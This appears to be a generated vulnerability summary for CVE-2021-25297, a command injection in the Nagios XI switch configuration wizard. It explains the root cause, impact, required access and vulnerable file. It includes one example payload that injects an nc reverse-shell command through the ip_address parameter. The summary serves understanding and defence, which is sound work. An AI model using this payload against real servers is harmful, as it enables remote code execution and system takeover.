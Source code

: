 Based on the provided content, here's a breakdown of the vulnerability information for CVE-2021-25297:

**Root Cause of Vulnerability:**
- The vulnerability stems from the lack of sanitization of user-controlled input, specifically the `ip_address` parameter, when constructing a filename and executing a command via the `exec()` function in PHP.

**Weaknesses/Vulnerabilities Present:**
- **Command Injection:** The primary vulnerability is command injection, where an attacker can inject arbitrary shell commands into a command being executed by the server due to the lack of input sanitization.
- **Insufficient Input Validation:** The application fails to validate or sanitize the `ip_address` parameter before using it in a command, which can be exploited by an attacker to inject malicious shell commands.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** Successful exploitation allows an attacker to execute arbitrary code on the server with the privileges of the web server user (typically `apache`).
- **Complete System Compromise:** By gaining code execution, the attacker can potentially escalate privileges and compromise the entire system.
- **Data Breach and Loss:** The attacker may gain access to sensitive data, modify or delete data, or disrupt services.

**Attack Vectors:**
- **HTTP Request:** The vulnerability is triggered through a crafted HTTP request to the Nagios XI web interface, specifically when using the "switch" configuration wizard.
- **URL Parameter Manipulation:** The attacker injects malicious shell commands by modifying the `ip_address` URL parameter.

**Required Attacker Capabilities/Position:**
- **Authentication:** A valid username/password pair is required to exploit this vulnerability. The attacker needs to be authenticated to the NagiosXI interface to access the vulnerable configuration wizard.
- **Network Access:** The attacker needs network access to the Nagios XI server to send the malicious HTTP request.

**Technical Details:**
- The vulnerability occurs in the file `/usr/local/nagiosxi/html/includes/configwizards/switch/switch.inc.php`.
- The vulnerable code constructs file paths and executes the `sed` command using `exec()`. The `ip_address` parameter is used to construct the file path.
- An attacker can inject shell commands by providing an `ip_address` value that contains shell metacharacters (e.g., `';'`, `|`).
- For example:
`ip_address=127.0.0.1; nc -e /bin/sh 127.0.0.1 4445;`

**Additional Notes:**
- The provided fastly.com content confirms that the vulnerability affects NagiosXI versions 5.5.6 to 5.7.5.
- The github.com content shows a working POC using `nc` to obtain a reverse shell.
- The `sed` command is used to add meta information to the generated config file, and the injected commands are executed within this context.